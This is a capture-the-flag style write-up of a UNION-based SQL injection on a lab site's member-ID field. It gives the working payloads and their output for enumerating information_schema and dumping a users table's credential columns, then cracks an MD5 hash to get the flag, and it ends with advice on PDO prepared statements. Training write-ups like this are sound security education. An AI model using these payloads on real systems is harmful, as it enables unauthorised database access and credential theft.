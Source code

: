 # SQL injection on the member search field in the members page

## Vulnerability Details:

### Affected URL: `http://{IP_ADDR}/index.php?page=member&id=`

### Issue Description:
Entering certain input, such as `union` triggers a SQL error that indicates SQL expressions are treated as intended rather than being escaped or treated as regular strings. This vulnerability allows us to exploit the system and extract data from the database by sending requests through the input field.

### Potential Exploitation:
Since the input field expects an ID number, the corresponding SQL query should resemble:
```
SELECT first_name, last_name FROM users WHERE users.user_id = ${input_value}
```
This query prints the first name and last name of the member with the given member ID. Since we don't need the website to display data about any specific member, we can choose the ID `-1`, which is unlikely to match any existing ID.<br />
<br />
To append our request after the original query, we can use the `UNION` operator, and perform an UNION-based SQL injection attempt, which combines the result sets of two or more `SELECT` statements:
```
SELECT first_name, last_name FROM users WHERE users.user_id = -1 UNION SELECT XXX FROM XXX
```
This allows us to execute our exploit immediately after the original request.<br />
<br />
We aim to retrieve data from the `information_schema`. In SQL, `information_schema` is a schema providing metadata about database objects. We are particularly interested in the `table_name` and `column_name` columns from `information_schema.columns` to understand the general structure of the database.<br />
<br />
With this in mind, we have:<br />
<br />
INPUT:
```
-1 UNION SELECT table_name, column_name FROM information_schema.columns
```

OUTPUT:
```
ID: -1 UNION select table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign
```

The result reveals a `users` table and two interesting columns: `Commentaire` and `countersign`. Subsequently, we will send the following request to retrieve these two fields from all users in the database:<br />
<br />
INPUT:
```
-1 UNION SELECT commentaire, countersign FROM users
```

OUTPUT:
```
ID: -1 union select commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

Since the password appears to be a hash, we need to determine the hash type before obtaining the original string. For this, we will use the hash-identifier tool on Kali Linux:
```
user@kali:~$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 5ff9d0165b4f92b14994e5c685cdce28

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Now, it has been determined that the password is likely hashed with `MD5`. We will proceed to generate a word list in `wordlist.txt` and create a script named `md5comparer.sh`. The script will hash each word from the word list using MD5 and compare the generated hashes with the password until a match is found:
```
user@kali:~$ ./md5comparer.sh wordlist.txt $(cat pwd.txt)
no match found for: 'quarantedeux'
no match found for: 'quarante-deux'
no match found for: 'quarante_deux'
no match found for: 'Quarante-Deux'
no match found for: 'QuaranteDeux'
no match found for: '42'
no match found for: 'fortytwo'
no match found for: 'forty-two'
no match found for: 'forty_two'
no match found for: 'Forty-Two'
HASHES MATCH FOR: 'FortyTwo'
Found match, exiting...
```
Here, a match is found for `FortyTwo`. Let's recall the discovered instruction:
```
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```

We will, therefore, convert all the characters to lowercase: `FortyTwo -> fortytwo`

...and hash it with SHA-256:
```
user@kali:~$ echo -n "fortytwo" | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  -
```
Thus, the flag is `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`.

## Immediate Action Required:
Inspecting the HTML code, this line:
```
<a href="index.php">Home</a>
```
reveals that the website is coded in `PHP`.<br />
To avoid SQL injection in PHP, it is recommended to use `prepared statements` with `parameterized queries`. Below are examples demonstrating how to use prepared statements in PHP with MySQL using the `PDO extension`:

```
// Connect to database
$conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);
$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

// Example with positional parameters
$userInput = "John";
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$userInput]);
   
// Example with named parameters
$userInput = "John";
$stmt = $conn->prepare("SELECT * FROM users WHERE username = :username");
$stmt->execute(['username' => $userInput]);
```
In both examples, the user input is properly bound to the SQL query using placeholders (`?` for positional parameters or `:username` for named parameters). This way, the input is treated as data, preventing SQL injection attacks.